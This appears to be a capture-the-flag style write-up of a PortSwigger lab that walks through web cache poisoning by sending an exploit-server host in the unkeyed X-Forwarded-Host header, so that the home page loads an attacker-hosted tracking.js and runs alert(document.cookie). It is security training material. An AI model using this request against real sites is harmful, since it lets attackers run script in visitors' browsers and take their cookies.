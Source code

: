 
# Web cache poisoning with an unkeyed header

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

Hint: This lab supports the X-Forwarded-Host header.

---------------------------------------------

References: 

- https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws



![img](images/Web%29cache%29poisoning%29with%29an%29unkeyed%29header/1.png)

---------------------------------------------

There is a reference to the file /resources/js/tracking.js in the home page:



![img](images/Web%29cache%29poisoning%29with%29an%29unkeyed%29header/2.png)

It contains this code:



![img](images/Web%29cache%29poisoning%29with%29an%29unkeyed%29header/3.png)


I will create a similar one in the exploit server with the payload we want:



![img](images/Web%29cache%29poisoning%29with%29an%29unkeyed%29header/4.png)


Then I will send the exploit server url in the X-Forwarded-Host header to the home page:

```
GET / HTTP/2
...
X-Forwarded-Host: exploit-0a26003703122ceb80d4074501290007.exploit-server.net
```



![img](images/Web%29cache%29poisoning%29with%29an%29unkeyed%29header/5.png)


When accessing the home page we get the alert pop up:



![img](images/Web%29cache%29poisoning%29with%29an%29unkeyed%29header/6.png)

